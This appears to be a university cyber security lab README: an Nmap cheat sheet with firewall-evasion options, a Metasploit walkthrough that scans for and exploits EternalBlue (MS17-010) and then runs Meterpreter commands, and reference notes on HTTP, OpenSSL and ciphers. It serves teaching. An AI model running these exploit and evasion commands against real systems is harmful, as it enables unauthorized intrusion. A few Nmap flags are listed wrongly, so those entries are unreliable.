

# CyberSec-Lab
## Resources for Cyber Security Lab 3rd year 6th sem

**Table of Contents**
1. [What is Nmap?](#what-is-nmap)  
2. [Command Line](#command-line) 
3. [Basic Scanning Techniques](#basic-scanning-techniques)  
    1. [Scan a Single Target](#scan-a-single-target)  
    2. [Scan Multiple Targets](#scan-multiple-targets)  
    3. [Scan a List of Targets](#scan-a-list-of-targets)  
    4. [Scan a Range of Hosts](#scan-a-range-of-hosts)  
    5. [Scan an Entire Subnet](#scan-an-entire-subnet)  
    6. [Scan Random Hosts](#scan-random-hosts)  
    7. [Exclude Targets From a Scan](#exclude-targets-from-a-scan)  
    8. [Exclude Targets Using a List](#exclude-targets-using-a-list)  
    9. [Perform an Aggresive Scan](#perform-an-aggressive-scan)  
    10. [Scan an IPv6 Target](#scan-an-ipv6-target)  
4. [Port Scanning Options](#port-scanning-options)  
    1. [Perform a Fast Scan](#perform-a-fast-scan)  
    2. [Scan Specific Ports](#scan-specific-ports)  
    3. [Scan Ports by Name](#scan-ports-by-name)  
    4. [Scan Ports by Protocol](#scan-ports-by-protocol)  
    5. [Scan All Ports](#scan-all-ports)  
    6. [Scan Top Ports](#scan-top-ports)  
    7. [Perform a Sequential Port Scan](#perform-a-sequential-port-scan)  
    8. [Attempt to Guess an Unknown OS](#attempt-to-guess-an-unkown-os)  
    9. [Service Version Detection](#service-version-detection)  
    10. [Troubleshoot Version Scan](#troubleshoot-version-scan)  
    11. [Perform a RPC Scan](#perform-a-rpc-scan) 
5. [Discovery Options](#discovery-options)  
    1. [Perform a Ping Only Scan](#perform-a-ping-only-scan)  
    2. [Do Not Ping](#do-not-ping)  
    3. [TCP SYN Ping](#tcp-syn-ping)  
    3. [TCP ACK Ping](#tcp-ack-ping)  
    4. [UDP Ping](#udp-ping)  
    5. [SCTP INIT Ping](#sctp-init-ping)  
    6. [ICMP Echo Ping](#icmp-echo-ping)  
    7. [ICMP Timestamp Ping](#icmp-timestamp-ping)  
    8. [ICMP Address Mask Ping](#icmp-address-mask-ping)  
    9. [IP Protocol Ping](#ip-protocol-ping)  
    10. [ARP Ping](#arp-ping)  
    11. [Traceroute](#traceroute)  
    12. [Force Reverse DNS Resolution](#force-reverse-dns-resolution)  
    13. [Disable Reverse DNS Resolution](#disable-reverse-dns-resolution)  
    14. [Alternative DNS Lookup](#alternate-dns-lookup)  
    15. [Manually Specify DNS Server](#manually-specify-dns-server)  
    16. [Create a Host List](#create-a-host-list)  
6. [Firewall Evasion Techniques](#firewall-evasion-techniques)  
    1. [Fragment Packets](#fragment-packets)  
    2. [Specify a Specific MTU](#specify-a-specify-mtu)  
    3. [Use a Decoy](#use-a-decoy)  
    4. [Idle Zombie Scan](#idle-zombie-scan)  
    5. [Manually Specify a Source Port](#manually-specify-a-source-port)  
    6. [Append Random Data](#append-random-data)  
    7. [Randomize Target Scan Order](#randomize-target-scan-order)  
    8. [Spoof MAC Address](#spoof-mac-address)  
    9. [Send Bad Checksums](#send-bad-checksums)  
7. [Advanced Scanning Functions](#advanced-scanning-functions)  
    1. [TCP SYN Scan](#tcp-syn-scan)  
    2. [TCP Connect Scan](#tcp-connect-scan)  
    3. [UDP Scan](#udp-scan)  
    4. [TCP NULL Scan](#tcp-null-scan)  
    5. [TCP FIN Scan](#tcp-fin-scan)  
    6. [Xmas Scan](#xmas-scan)  
    7. [TCP ACK Scan](#tcp-ack-scan)  
    8. [Custom TCP Scan](#custom-tcp-scan)  
    9. [IP Protocol Scan](#ip-protocol-scan)  
    10. [Send Raw Ethernet Packets](#send-raw-ethernet-packets)  
    11. [Send IP Packets](#send-ip-packets)    
8. [Timing Options](#timing-options)  
    1. [Timing Templates](#timing-templates)  
    2. [Set the Packet TTL](#set-the-packet-ttl)  
    3. [Minimum Number of Parallel Operations](#minimum-number-of-parallel-operations)  
    4. [Maximum Number of Parallel Operations](#maximum-number-of-parallel-operations)  
    5. [Minimum Host Group Size](#minimum-host-group-size)  
    6. [Maximum Host Group Size](#maximum-host-group-size)  
    7. [Maximum RTT Timeout](#maximum-rtt-timeout)  
    8. [Initial RTT TImeout](#initial-rtt-timeout)  
    10. [Maximum Number of Retries](#maximum-number-of-retries)  
    11. [Host Timeout](#host-timeout)  
    12. [Minimum Scan Delay](#minimum-scan-delay)  
    13. [Maximum Scan Delay](#maximum-scan-delay)  
    14. [Minimum Packet Rate](#minimum-packet-rate)  
    15. [Maximum Packet Rate](#maximum-packet-rate)  
    16. [Defeat Reset Rate Limits](#defeat-reset-rate-limits)  
9. [Output Options](#output-options)  
    1. [Save Output to a Text File](#save-output-to-a-text-file)  
    2. [Save Output to a XML File](#save-output-to-a-xml-file)  
    3. [Grepable Output](#grepable-output)  
    4. [Output All Supported File Types](#output-all-supported-file-types)  
    5. [Periodically Display Statistics](#periodically-display-statistics)  
    6. [1337 Output](#1337-output)  
10. [Compare Scans](#compare-scans)  
    1. [Comparison Using Ndiff](#comparison-using-ndiff)  
    2. [Ndiff Verbose Mode](#ndiff-verbose-mode)  
    3. [XML Output Mode](#xml-output-mode)  
11. [Troubleshooting and Debugging](#troubleshooting-and-debugging)  
    1. [Get Help](#get-help)  
    2. [Display Nmap Version](#display-nmap-version)  
    3. [Verbose Output](#verbose-output)  
    4. [Debugging](#debugging)  
    5. [Display Port State Reason](#display-port-state-reason)  
    6. [Only Display Open Ports](#only-display-open-ports)  
    7. [Trace Packets](#trace-packets)  
    8. [Display Host Networking](#display-host-networking)  
    9. [Specify a Network Interface](#specify-a-network-interface)  
12. Nmap Scripting Engine  
    1. [Execute Individual Scripts](#execute-individual-scripts)  
    2. [Execute Multiple Scripts](#execute-multiple-scripts)  
    3. [Execute Scripts by Category](#execute-scripts-by-category)  
    4. [Execute Multiple Script Categories](#execute-multiple-script-categories)  
    5. [Troubleshoot Scripts](#troubleshoot-scripts)  
    6. [Update the Script Database](#update-the-script-database)
12. Eternal Blue 
    1. [What is Eternal Blue]( #Eternal-Blue-Exploit)
    2. [Introduction to Metasploit](#Metasploit-Framework)
    3. [What is SMB](#SMB (Server-Message-Block))
    4. [What is MS17_010](#MS17-010 )
    5. [Summary of Eternal Blue,Metasploit and MS17_010](#Why-It-Matters)                   
    6. [Scanning for Vulnerability to MS17_010](#Checks-if-the-target-is-vulnerable-to-MS17-010)
    7. [Eternal Blue Exploit]( #EternalBlue-exploit)
    8. [Post exploit session]( #Meterpreter-Session)
14. [HTTP](#HTTP)
    1. [HTTP Request Methods](#http-request-methods)
    2. [HTTP Status Codes](#http-status-codes)
    3. [Common HTTP Status Codes](#common-http-status-codes)
    4. [Common Request Headers](#common-request-headers)
    5. [Common Response Headers](#common-response-headers)       
15. [OPENSSL](#OpenSSL-Encryption-and-Decryption)
    1. [Basic Encryption and Decryption](#basic-encryption-and-decryption)
       - [Symmetric Encryption (AES)](#symmetric-encryption-aes)
       - [Asymmetric Encryption (RSA)](#asymmetric-encryption-rsa)
    2. [Advanced Encryption and Decryption](#advanced-encryption-and-decryption)
       - [Encrypting with a Certificate](#encrypting-with-a-certificate)
    3. [Hashing](#hashing)
    4. [Key Management](#key-management)
    5. [Certificate Management](#certificate-management)
16. [ENCRYPTION STANDARDS](#Encryption-Algorithms)
    1. [AES (Advanced Encryption Standard)](#aes-advanced-encryption-standard)
      - [Architecture](#aes-architecture)
    2. [DES (Data Encryption Standard)](#des-data-encryption-standard)
      - [Architecture](#des-architecture)
    3. [MD5 (Message Digest Algorithm 5)](#md5-message-digest-algorithm-5)
      - [Architecture](#md5-architecture)
    4. [SHA (Secure Hash Algorithm)](#sha-secure-hash-algorithm)
      - [SHA-1](#sha-1)
      - [SHA-2](#sha-2)
      - [SHA-3](#sha-3)
    5. [RSA (Rivest-Shamir-Adleman)](#rsa-rivest-shamir-adleman)
      - [Architecture](#rsa-architecture)
    6. [Differences](#differences)
      - [Symmetric vs. Asymmetric](#symmetric-vs-asymmetric)
      - [Hash Functions (MD5, SHA)](#hash-functions-md5-sha)
      - [Key Sizes and Security](#key-sizes-and-security)
      - [Use Cases](#use-cases)


## Nmap Cheat Sheet       

## What is Nmap?
Nmap ("Network Mapper") is a free and open source utility for network discovery and security auditing. Many systems and network administrators also find it useful for tasks such as network inventory, managing service upgrade schedules, and monitoring host or service uptime. Nmap uses raw IP packets in novel ways to determine what hosts are available on the network, what services (application name and version) those hosts are offering, what operating systems (and OS versions) they are running. It was designed to rapidly scan large networks, but works fine against single hosts.

### Command Line
```shell
nmap [ <Scan Type> ...] [ <Options> ] { <target specification> }
```

## Basic Scanning Techniques
The `-s` switch determines the type of scan to perform.

| Nmap Switch | Description                 |
|:------------|:----------------------------|
| **-sA**     | ACK scan                    |
| **-sF**     | FIN scan                    |
| **-sI**     | IDLE scan                   |
| **-sL**     | DNS scan (a.k.a. list scan) |
| **-sN**     | NULL scan                   |
| **-sO**     | Protocol scan               |
| **-sP**     | Ping scan                   |
| **-sR**     | RPC scan                    |
| **-sS**     | SYN scan                    |
| **-sT**     | TCP connect scan            |
| **-sW**     | Windows scan                |
| **-sX**     | XMAS scan                   |

### Scan a Single Target
```shell
nmap [target]
```

### Scan Multiple Targets
```shell
nmap [target1, target2, etc]
```

### Scan a List of Targets
```shell
nmap -iL [list.txt]
```

### Scan a Range of Hosts
```shell
nmap [range of IP addresses]
```

### Scan an Entire Subnet
```shell
nmap [ip address/cdir]
```

### Scan Random Hosts
```shell
nmap -iR [number]
```

### Exclude Targets From a Scan
```shell
nmap [targets] --exclude [targets]
```

### Exclude Targets Using a List
```shell
nmap [targets] --excludefile [list.txt]
```

### Perform an Aggresive Scan
```shell
nmap -A [target]
```

### Scan an IPv6 Target
```shell
nmap -6 [target]
```

## Port Scanning Options

### Perform a Fast Scan
```shell
nmap -F [target]
```

### Scan Specific Ports
```shell
nmap -p [port(s)] [target]
```

### Scan Ports by Name
```shell
nmap -p [port name(s)] [target]
```

### Scan Ports by Protocol
```shell
nmap -sU -sT -p U:[ports],T:[ports] [target]
```

### Scan All Ports
```shell
nmap -p 1-65535 [target]
```

### Scan Top Ports
```shell
nmap --top-ports [number] [target]
```

### Perform a Sequential Port Scan
```shell
nmap -r [target]
```

### Attempt to Guess an Unknown OS
```shell
nmap -O --osscan-guess [target]
```

### Service Version Detection
```shell
nmap -sV [target]
```

### Troubleshoot Version Scan
```shell
nmap -sV --version-trace [target]
```

### Perform a RPC Scan
```shell
nmap -sR [target]
```

## Discovery Options
**Host Discovery**
The `-p` switch determines the type of ping to perform.

| Nmap Switch | Description                 |
|:------------|:----------------------------|
| **-PI**     | ICMP ping                   |
| **-Po**     | No ping                     |
| **-PS**     | SYN ping                    |
| **-PT**     | TCP ping                    |

### Perform a Ping Only Scan
```shell
nmap -sn [target]
```

### Do Not Ping
```shell
nmap -Pn [target]
```

### TCP SYN Ping
```shell
nmap -PS [target]
```

### TCP ACK Ping
```shell
nmap -PA [target]
```

### UDP Ping
```shell
nmap -PU [target]
```

### SCTP INIT Ping
```shell
nmap -PY [target]
```

### ICMP Echo Ping
```shell
nmap -PE [target]
```
### ICMP Timestamp Ping
```shell
nmap -PP [target]
```

### ICMP Address Mask Ping
```shell
nmap -PM [target]
```

### IP Protocol Ping
```shell
nmap -PO [target]
```

### ARP ping
```shell
nmap -PR [target]
```

### Traceroute
```shell
nmap --traceroute [target]
```

### Force Reverse DNS Resolution
```shell
nmap -R [target]
```

### Disable Reverse DNS Resolution
```shell
nmap -n [target]
```

### Alternative DNS Lookup
```shell
nmap --system-dns [target]
```

### Manually Specify DNS Server
Can specify a single server or multiple.
```shell
nmap --dns-servers [servers] [target]
```

### Create a Host List
```shell
nmap -sL [targets]
```

## Port Specification and Scan Order

| Nmap Switch | Description                 |
|:------------|:----------------------------|

## Service/Version Detection

| Nmap Switch | Description                  |
|:------------|:-----------------------------|
| **-sV**     | Enumerates software versions |

## Script Scan

| Nmap Switch | Description             |
|:------------|:------------------------|
| **-sC**     | Run all default scripts |

## OS Detection

| Nmap Switch | Description                 |
|:------------|:----------------------------|

## Timing and Performance
The `-t` switch determines the speed and stealth performed.

| Nmap Switch | Description                 |
|:------------|:----------------------------|
| **-T0**     | Serial, slowest scan        |
| **-T1**     | Serial, slow scan           |
| **-T2**     | Serial, normal speed scan   |
| **-T3**     | Parallel, normal speed scan |
| **-T4**     | Parallel, fast scan         |

Not specifying a `T` value will default to `-T3`, or normal speed.

## Firewall Evasion Techniques

### Firewall/IDS Evasion and Spoofing
| Nmap Switch | Description                 |
|:------------|:----------------------------|

### Fragment Packets
```shell
nmap -f [target]
```

### Specify a Specific MTU
```shell
nmap --mtu [MTU] [target]
```

### Use a Decoy
```shell
nmap -D RND:[number] [target]
```

### Idle Zombie Scan
```shell
nmap -sI [zombie] [target]
```

### Manually Specify a Source Port
```shell
nmap --source-port [port] [target]
```

### Append Random Data
```shell
nmap --data-length [size] [target]
```

### Randomize Target Scan Order
```shell
nmap --randomize-hosts [target]
```

### Spoof MAC Address
```shell
nmap --spoof-mac [MAC|0|vendor] [target]
```

### Send Bad Checksums
```shell
nmap --badsum [target]
```
  
## Advanced Scanning Functions

### TCP SYN Scan
```shell
nmap -sS [target]
```

### TCP Connect Scan
```
nmap -sT [target]
```

### UDP Scan
```shell
nmap -sU [target]
```

### TCP NULL Scan
```shell
nmap -sN [target]
```

### TCP FIN Scan
```shell
nmap -sF [target]
```

### Xmas Scan
```shell
nmap -sA [target]
```

### TCP ACK Scan
```shell
nmap -sA [target]
```

### Custom TCP Scan
```shell
nmap --scanflags [flags] [target]
```

### IP Protocol Scan
```shell
nmap -sO [target]
```

### Send Raw Ethernet Packets
```shell
nmap --send-eth [target]
```

### Send IP Packets
```shell
nmap --send-ip [target]
```

## Timing Options

### Timing Templates
```shell
nmap -T[0-5] [target]
```

### Set the Packet TTL
```shell
nmap --ttl [time] [target]
```

### Minimum NUmber of Parallel Operations
```shell
nmap --min-parallelism [number] [target]
```

### Maximum Number of Parallel Operations
```shell
nmap --max-parallelism [number] [target]
```

### Minimum Host Group Size
```shell
nmap --min-hostgroup [number] [targets]
```

### Maximum Host Group Size
```shell
nmap --max-hostgroup [number] [targets]
```

### Maximum RTT Timeout
```shell
nmap --initial-rtt-timeout [time] [target]
```

### Initial RTT Timeout
```shell
nmap --max-rtt-timeout [TTL] [target]
```

### Maximum Number of Retries
```shell
nmap --max-retries [number] [target]
```

### Host Timeout
```shell
nmap --host-timeout [time] [target]
```

### Minimum Scan Delay
```shell
nmap --scan-delay [time] [target]
```

### Maxmimum Scan Delay
```shell
nmap --max-scan-delay [time] [target]
```

### Minimum Packet Rate
```shell
nmap --min-rate [number] [target]
```

### Maximum Packet Rate
```shell
nmap --max-rate [number] [target]
```

### Defeat Reset Rate Limits
```shell
nmap --defeat-rst-ratelimit [target]
```

## Output Options

| Nmap Switch | Description   |
|:------------|:--------------|
| ``-oN``     | Normal output |
| ``-oX``     | XML output    |
| ``-oA``     | Normal, XML, and Grepable format all at once |

### Save Output to a Text File
```shell
nmap -oN [scan.txt] [target]
```

### Save Output to a XML File
```shell
nmap -oX [scan.xml] [target]
```

### Grepable Output
```shell
nmap -oG [scan.txt] [target]
```

### Output All Supported File Types
```shell
nmap -oA [path/filename] [target]
```

### Periodically Display Statistics
```shell
nmap --stats-every [time] [target]
```

### 1337 Output
```shell
nmap -oS [scan.txt] [target]
```

## Compare Scans

### Comparison Using Ndiff
```shell
ndiff [scan1.xml] [scan2.xml]
```

### Ndiff Verbose Mode
```shell
ndiff -v [scan1.xml] [scan2.xml]
```

### XML Output Mode
```shell
ndiff --xml [scan1.xml] [scan2.xml]
```

## Troubleshooting and Debugging

### Get Help
```shell
nmap -h
```

### Display Nmap Version
```shell
nmap -V
```

### Verbose Output
```shell
nmap -v [target]
```

### Debugging
```shell
nmap -d [target]
```

### Display Port State Reason
```shell
nmap --reason [target]
```

### Only Display Open Ports
```shell
nmap --open [target]
```

### Trace Packets
```shell
nmap --packet-trace [target]
```

### Display Host Networking
```shell
nmap --iflist
```

### Specify a Network Interface
```shell
nmap -e [interface] [target]
```

## Nmap Scripting Engine

### Execute Individual Scripts
```shell
nmap --script [script.nse] [target]
```

### Execute Multiple Scripts
```shell
nmap --script [expression] [target]
```

### Execute Scripts by Category
```shell
nmap --script [category] [target]
```

### Execute Multiple Script Categories
```shell
nmap --script [category1,category2,etc]
```

### Troubleshoot Scripts
```shell
nmap --script [script] --script-trace [target]
```

### Update the Script Database
```shell
nmap --script-updatedb
```

## Eternal Blue Exploit
EternalBlue is a cyberattack exploit developed by the U.S. National Security Agency (NSA) that was leaked by the hacker group Shadow Brokers in April 2017. It targets a vulnerability in Microsoft's implementation of the Server Message Block (SMB) protocol. The exploit allows an attacker to execute arbitrary code on a target system, potentially leading to full system compromise.

### Metasploit Framework

A Ruby-based penetration testing platform developed by Rapid7, providing tools to identify, exploit, and remediate vulnerabilities. 
It includes:

   | Category     | Description                                                                 |
|--------------|-----------------------------------------------------------------------------|
| **Exploits** | Pre-built code to target specific vulnerabilities (e.g., buffer overflows, code injection). |
| **Payloads** | Post-exploitation tools (e.g., Meterpreter shells, reverse shells).         |
| **Auxiliaries** | Scanners, fuzzers, and reconnaissance tools.                                |

### SMB (Server Message Block)

A Windows protocol for file/printer sharing, network communication, and resource management. 
Vulnerabilities in SMB (e.g., SMBv1) have been exploited in major attacks like WannaCry.

### MS17-010 

A critical Windows SMBv1 vulnerability (patched in 2017) allowing remote code execution via unauthenticated SMB requests. 
Exploited by the Eternal Blue tool to spread malware (e.g., WannaCry ransomware).

| **Component**   | **Role**                                                                 |
|------------------|--------------------------------------------------------------------------|
| Metasploit       | Framework to exploit vulnerabilities (e.g., MS17-010 via ms17_010_eternalblue module). |
| SMB              | Protocol exploited in MS17-010 to gain unauthorized access.              |
| MS17-010         | Vulnerability enabling Eternal Blue attacks; patched by Microsoft in 2017. |
| Eternal Blue     | Exploit leveraging MS17-010 to compromise systems via SMB.               |
### Why It Matters

| **Component**   | **Security Significance**                                                                                       |
|------------------|------------------------------------------------------------------------------------------------|
| MS17-010         | A high-risk vulnerability in outdated Windows systems, often targeted in ransomware campaigns. |
| Eternal Blue     | Demonstrates how unpatched SMB vulnerabilities enable lateral movement and mass exploitation.  |
| Metasploit       | Provides tools to test defenses against such attacks, emphasizing the need for patching and network segmentation. |

### Checks if the target is vulnerable to MS17-010

```shell
msfconsole
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS [TARGET_IP]
run
```

### EternalBlue exploit

```shell
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS [TARGET_IP]
set LHOST [LOCAL_IP]
exploit
```

### Meterpreter Session
```shell
meterpreter > sysinfo   
meterpreter > ps            
meterpreter > migrate 4536   
meterpreter > screenshot      
```
## HTTP 




### HTTP Request Methods

| Method  | Description                                                                 |
|---------|-----------------------------------------------------------------------------|
| GET     | Used for getting information from a web server.                            |
| POST    | Used for submitting data to the web server and potentially creating records. |
| PUT     | Used for submitting data to update existing information on a web server.   |
| DELETE  | Used for deleting information or records from a web server.                |


### HTTP Status Code Ranges

| Code Range | Type             | Description                                                                 |
|------------|------------------|-----------------------------------------------------------------------------|
| 100–199    | Informational     | Request received, continuing process. Mostly deprecated.                   |
| 200–299    | Success           | The request was successfully received, understood, and accepted.          |
| 300–399    | Redirection       | Further action needs to be taken to complete the request.                 |
| 400–499    | Client Error      | The request contains bad syntax or cannot be fulfilled.                   |
| 500–599    | Server Error      | The server failed to fulfill a valid request.                             |


### Common HTTP Status Codes

| Code | Meaning               | Description                                                                 |
|------|-----------------------|-----------------------------------------------------------------------------|
| 200  | OK                    | The request was completed successfully.                                     |
| 201  | Created               | A resource has been created (e.g., a new user or blog post).                |
| 301  | Moved Permanently     | The resource has been permanently moved to a new location.                  |
| 302  | Found                 | The resource is temporarily located at a different URI.                     |
| 400  | Bad Request           | The server could not understand the request due to invalid syntax.          |
| 401  | Not Authorized        | Authentication is required and has failed or has not yet been provided.     |
| 403  | Forbidden             | You do not have permission to access the requested resource.                |
| 404  | Page Not Found        | The requested resource could not be found on the server.                    |
| 405  | Method Not Allowed    | The request method is known by the server but is not supported.             |
| 500  | Internal Server Error | The server encountered an error and could not complete the request.         |
| 503  | Service Unavailable   | The server is not ready to handle the request, often due to maintenance.    |


### Common Request Headers

| Header | Description |
|--------|-------------|
| **Host** | Some web servers host multiple websites so by providing the host headers you can tell it which one you require, otherwise you'll just receive the default website for the server. |
| **User-Agent** | This is your browser software and version number, telling the web server your browser software helps it format the website properly for your browser and also some elements of HTML, JavaScript and CSS are only available in certain browsers. |
| **Content-Length** | When sending data to a web server such as in a form, the content length tells the web server how much data to expect in the web request. This way the server can ensure it isn't missing any data. |
| **Accept-Encoding** | Tells the web server what types of compression methods the browser supports so the data can be made smaller for transmitting over the internet. |
| **Cookie** | Data sent to the server to help remember your information (see cookies task for more information). |


### Common Response Headers

| Header | Description |
|--------|-------------|
| **Set-Cookie** | Information to store which gets sent back to the web server on each request (see cookies task for more information). |
| **Cache-Control** | How long to store the content of the response in the browser's cache before it requests it again. |
| **Content-Type** | This tells the client what type of data is being returned, i.e., HTML, CSS, JavaScript, Images, PDF, Video, etc. Using the content-type header the browser then knows how to process the data. |
| **Content-Encoding** | What method has been used to compress the data to make it smaller when sending it over the internet. |

# OpenSSL Encryption and Decryption

OpenSSL is a robust, full-featured open-source toolkit implementing the Secure Sockets Layer (SSL) and Transport Layer Security (TLS) protocols, as well as a general-purpose cryptography library. 

## Basic Encryption and Decryption

### Symmetric Encryption (AES)

**Encrypting a File with AES:**

```sh
openssl enc -aes-256-cbc -salt -in plaintext.txt -out encrypted.txt -k your_password
```

- `-aes-256-cbc`: Specifies the AES-256-CBC encryption algorithm.
- `-salt`: Adds a salt to the encryption process.
- `-in plaintext.txt`: Specifies the input file.
- `-out encrypted.txt`: Specifies the output file.
- `-k your_password`: Specifies the password for encryption.

**Decrypting a File with AES:**

```sh
openssl enc -aes-256-cbc -d -in encrypted.txt -out decrypted.txt -k your_password
```

- `-d`: Specifies decryption mode.
- `-in encrypted.txt`: Specifies the input file.
- `-out decrypted.txt`: Specifies the output file.
- `-k your_password`: Specifies the password for decryption.

### Asymmetric Encryption (RSA)

**Generating an RSA Key Pair:**

```sh
openssl genpkey -algorithm RSA -out private_key.pem -pkeyopt rsa_keygen_bits:2048
openssl rsa -pubout -in private_key.pem -out public_key.pem
```

- `genpkey`: Generates a private key.
- `-algorithm RSA`: Specifies the RSA algorithm.
- `-out private_key.pem`: Specifies the output file for the private key.
- `-pkeyopt rsa_keygen_bits:2048`: Specifies the key size.
- `rsa`: Converts the private key to a public key.
- `-pubout`: Specifies public key output.
- `-in private_key.pem`: Specifies the input private key file.
- `-out public_key.pem`: Specifies the output file for the public key.

**Encrypting a File with a Public Key:**

```sh
openssl rsautl -encrypt -inkey public_key.pem -pubin -in plaintext.txt -out encrypted.txt
```

- `rsautl`: Performs RSA utility operations.
- `-encrypt`: Specifies encryption mode.
- `-inkey public_key.pem`: Specifies the public key file.
- `-pubin`: Specifies that the input key is a public key.
- `-in plaintext.txt`: Specifies the input file.
- `-out encrypted.txt`: Specifies the output file.

**Decrypting a File with a Private Key:**

```sh
openssl rsautl -decrypt -inkey private_key.pem -in encrypted.txt -out decrypted.txt
```

- `-decrypt`: Specifies decryption mode.
- `-inkey private_key.pem`: Specifies the private key file.
- `-in encrypted.txt`: Specifies the input file.
- `-out decrypted.txt`: Specifies the output file.

## Advanced Encryption and Decryption

### Encrypting with a Certificate

**Encrypting a File with a Certificate:**

```sh
openssl smime -encrypt -in plaintext.txt -out encrypted.pem -certfile certificate.crt
```

- `smime`: Performs S/MIME operations.
- `-encrypt`: Specifies encryption mode.
- `-in plaintext.txt`: Specifies the input file.
- `-out encrypted.pem`: Specifies the output file.
- `-certfile certificate.crt`: Specifies the certificate file.

**Decrypting a File with a Private Key:**

```sh
openssl smime -decrypt -in encrypted.pem -out decrypted.txt -inkey private_key.pem
```

- `-decrypt`: Specifies decryption mode.
- `-in encrypted.pem`: Specifies the input file.
- `-out decrypted.txt`: Specifies the output file.
- `-inkey private_key.pem`: Specifies the private key file.

## Hashing

**Generating an MD5 Hash:**

```sh
echo -n "your_string" | openssl dgst -md5
```

- `dgst`: Performs digest operations.
- `-md5`: Specifies the MD5 algorithm.

**Generating a SHA-256 Hash:**

```sh
echo -n "your_string" | openssl dgst -sha256
```

- `-sha256`: Specifies the SHA-256 algorithm.

## Key Management

**Converting a PEM Key to DER Format:**

```sh
openssl rsa -in private_key.pem -outform DER -out private_key.der
```

- `-in private_key.pem`: Specifies the input PEM file.
- `-outform DER`: Specifies the output format as DER.
- `-out private_key.der`: Specifies the output DER file.

**Converting a DER Key to PEM Format:**

```sh
openssl rsa -in private_key.der -inform DER -out private_key.pem
```

- `-in private_key.der`: Specifies the input DER file.
- `-inform DER`: Specifies the input format as DER.
- `-out private_key.pem`: Specifies the output PEM file.

## Certificate Management

**Generating a Self-Signed Certificate:**

```sh
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365
```

- `req`: Performs certificate request and certificate generating operations.
- `-x509`: Outputs a self-signed certificate.
- `-newkey rsa:2048`: Generates a new RSA key of 2048 bits.
- `-keyout key.pem`: Specifies the output file for the private key.
- `-out cert.pem`: Specifies the output file for the certificate.
- `-days 365`: Specifies the validity period of the certificate.

## Encryption Algorithms

## AES (Advanced Encryption Standard)

AES is a symmetric encryption algorithm that is widely used for securing sensitive data. It was adopted as a standard by the U.S. government in 2001 and is considered secure and efficient.

- **Key Sizes**: AES supports key sizes of 128, 192, and 256 bits.
- **Block Size**: AES operates on fixed block sizes of 128 bits.
- **Rounds**: The number of rounds (transformations) depends on the key size:
  - 10 rounds for 128-bit keys
  - 12 rounds for 192-bit keys
  - 14 rounds for 256-bit keys
- **Modes of Operation**: AES can be used in various modes, including ECB, CBC, CFB, OFB, and CTR.

### AES Architecture

- **SubBytes**: A non-linear substitution step where each byte is replaced with another according to a lookup table.
- **ShiftRows**: A transposition step where each row of the state is shifted cyclically a certain number of steps.
- **MixColumns**: A mixing operation which operates on the columns of the state, combining the four bytes in each column.
- **AddRoundKey**: Each byte of the state is combined with a byte of the round key using bitwise XOR.

## DES (Data Encryption Standard)

DES is an older symmetric encryption algorithm that was adopted as a standard by the U.S. government in 1977. It uses a 56-bit key and is considered insecure by today's standards.

- **Key Size**: 56 bits (though the key is typically 64 bits, with 8 bits used for parity).
- **Block Size**: 64 bits.
- **Rounds**: DES uses 16 rounds of transformation.
- **Modes of Operation**: DES can be used in various modes, including ECB, CBC, CFB, OFB, and CTR.

### DES Architecture

- **Initial Permutation (IP)**: A fixed permutation applied to the input block.
- **Feistel Network**: A structure that applies a series of transformations to the data.
- **Substitution and Permutation**: Each round involves substitution (using S-boxes) and permutation (using P-boxes).
- **Final Permutation (IP^-1)**: A fixed permutation applied to the output block.

## MD5 (Message Digest Algorithm 5)

MD5 is a cryptographic hash function that produces a 128-bit hash value. It is widely used for checksums and data integrity verification but is considered insecure for cryptographic purposes due to vulnerabilities to collision attacks.

- **Output Size**: 128 bits (16 bytes).
- **Process**: MD5 processes the input data in 512-bit blocks and uses a series of logical and bitwise operations to produce the hash value.

### MD5 Architecture

- **Padding**: The input data is padded to ensure its length is a multiple of 512 bits.
- **Initialization**: Four 32-bit variables are initialized with fixed values.
- **Processing**: The data is processed in 512-bit blocks using a series of logical and bitwise operations.
- **Output**: The final hash value is produced by combining the four 32-bit variables.

## SHA (Secure Hash Algorithm)

SHA is a family of cryptographic hash functions designed by the NSA. The most commonly used members are SHA-1, SHA-2, and SHA-3.

### SHA-1

- **Output Size**: 160 bits (20 bytes).
- **Process**: SHA-1 processes the input data in 512-bit blocks and uses a series of logical and bitwise operations to produce the hash value.
- **Security**: SHA-1 is considered insecure due to vulnerabilities to collision attacks.

### SHA-2

- **Variants**: SHA-2 includes several variants, including SHA-224, SHA-256, SHA-384, and SHA-512.
- **Output Sizes**: 224, 256, 384, and 512 bits, respectively.
- **Process**: SHA-2 processes the input data in 512-bit or 1024-bit blocks (depending on the variant) and uses a series of logical and bitwise operations to produce the hash value.
- **Security**: SHA-2 is considered secure and is widely used.

### SHA-3

- **Output Sizes**: SHA-3 supports output sizes of 224, 256, 384, and 512 bits.
- **Process**: SHA-3 uses a sponge construction, which is different from the Merkle-Damgård construction used in SHA-1 and SHA-2.
- **Security**: SHA-3 is designed to be secure and resistant to collision attacks.

## RSA (Rivest-Shamir-Adleman)

RSA is an asymmetric encryption algorithm that is widely used for secure data transmission. It uses a pair of keys: a public key for encryption and a private key for decryption.

- **Key Sizes**: RSA key sizes typically range from 1024 to 4096 bits, with 2048 bits being a common choice.
- **Process**: RSA involves the generation of a key pair, encryption using the public key, and decryption using the private key.
- **Security**: RSA is considered secure when using sufficiently large key sizes.

### RSA Architecture

- **Key Generation**: Involves selecting two large prime numbers, computing their product, and generating the public and private keys.
- **Encryption**: The plaintext is encrypted using the public key and a series of modular exponentiation operations.
- **Decryption**: The ciphertext is decrypted using the private key and a series of modular exponentiation operations.

## Differences

### Symmetric vs. Asymmetric

